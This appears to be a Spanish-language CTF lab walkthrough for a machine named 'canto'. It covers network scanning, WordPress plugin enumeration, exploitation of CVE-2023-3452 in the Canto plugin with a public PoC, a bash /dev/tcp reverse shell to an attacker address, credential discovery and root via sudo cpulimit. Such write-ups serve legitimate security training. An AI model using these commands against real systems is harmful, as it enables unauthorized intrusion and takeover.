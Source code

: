 
Crear los directorios

mkdir -p ctf/canto/reconocimiento

Descubriendo equipos en la red

sudo arp-scan -I eth0 -l > ctf/canto/reconocimiento/rep_scan01.txt

Descubriendo los servicios

sudo nmap -p- -sS -T4 -vvv -sV 192.168.196.5 -oN ctf/canto/reconocimiento/rep_nmap01.txt

Mostrar características del servidor web

whatweb http:// 192.168.196.5 > ctf/canto/reconocimiento/rep_web01.txt

searchsploit wordpress | grep –i “zoner”

Utilizar el navegador para ver el servicio web

Enumeración de directorios (Metodología Fuzzing)

sudo gobuster dir -u htpp://192.168.196.5 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o canto/report/rep_gobuster01.txt

ffuf -u http://ejemplo.com/FUZZ -w /path/to/SecLists/Discovery/Web-Content/common.txt

Revisar los directorios

Se muestra una página en blanco, significa que existe el recurso, pero, no se tiene los permisos.

Veamos la estructura de Wordpress en git hub

Carpetas Principales en la raíz de WordPress

            wp-admin

            wp-content

            wp-includes

Archivos principales en la raíz de WordPress:

        wp-config.php

        wp-login.php

Principales subcarpetas de WordPress

            Plugins

            Themes

            Uploads

Busquemos los plugin que utiliza la página

Buscar un wordlist de plugin para wordpress en github

Descargar el worlist del github

git clone https://github.com/Perfectdotexe/WordPress-Plugins-List

Enumeración de los plugins

sudo gobuster dir -u htpp://192.168.192.100/wp-content -w canto/tools/plugins.txt -o canto/report/rep_gobuster02.txt

Encontramos 2 plugins

canto y akismet

Veamos la descripción de los plugins

http://192.168.196.5/wp-content/plugins/canto/readme.txt

Encontramos la siguiente vulnerabilidad

CVE-2023-3452-PoC - Wordpress Plugin Canto < 3.0.5 - Remote File Inclusion (RFI) - Remote Code Execution (RCE) – Unauthenticated

git clone https://github.com/leoanggal1/CVE-2023-3452-PoC

Ejecutemos el script

python3 CVE-2023-3452.py -u http://192.168.196.5 -LHOST 192.168.196.3 -c 'id'

Tenemos la capacidad de ejecución remota de código, entonces realizar una Shell inverso

En la página:

https://www.urlencoder.org/es/

Escribir

bash -c "bash -i >& /dev/tcp/192.168.192.222/4242 0>&1"

Codifica los datos:

Utilizar el comando nc para leer los datos de la red.

nc -nlvp 4242

Ejecutamos el scrip:

python3 CVE-2023-3452.py -u http://192.168.192.100 -LHOST 192.168.192.222 -c 'bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.192.222%2F4242%200%3E%261%22'


----

Primero en una terminal
```sh
nc -nlvp 4444
```

En otra terminal
```

```

Llegamos a acceder al servidor

Probar algunos comandos de Linux

ls, pwd, hostname, id

Listar el home

ls /home

cat /etc/passwd

Ingresar a la página y verificar con el usuario erik

http://IP/wp-login.php

ver los permisos a la carpeta de erik

ls -al /home

Ver a que grupo pertenece

id

Ingresar a la carpeta notes

cd /home/erik/notes

leer el archivo Day2

cat Day2.txt

find / -name backups 2>/dev/null

Hay un directorio con ese nombre, ingrese.

cd /var/wordpress/backups

leer el archive 12052024.txt

cat 12052024.txt

Es el password de erik, ingresar a la página, hay un servicio ssh

conectarse con ssh

ssh erik@192.168.192.100

**Escalando privilegios**

sudo -l

El usuario erik, puede ejecutar cpulimit sin proporcionar contraseña el binario se encuentra en /usr/bin/cpulimit

ls -la /usr/bin/cpulimit

Ingresar a la página GTFOBins

sudo /usr/bin/cpulimit -l 100 -f /bin/sh

Ingresaste como root

cd /

ls -la

cd /root

ls –la

´

Mostrar conexiones activas, procesos y puertos abiertos con Netstat

netstat -putona

·        p Muestra las conexiones para el protocolo especificado que puede ser TCP o UDP

·        u Lista todos los puertos UDP

·        t  Lista todos los puertos TCP

·        o Muestra los timers

·        n Muestra el número de puerto

·        a Para visualizar todas las conexiones activas del sistema

netstat -putona |grep ':6881'

Crear usuario ssh

https://www.factoriadigital.com/como-crear-un-usuario-para-acceder-mediante-ssh/#:~:text=Para%20crear%20un%20nuevo%20usuario,del%20usuario%20que%20deseas%20crear.&text=Sigue%20las%20instrucciones%20para%20establecer,en%20blanco%20si%20lo%20deseas).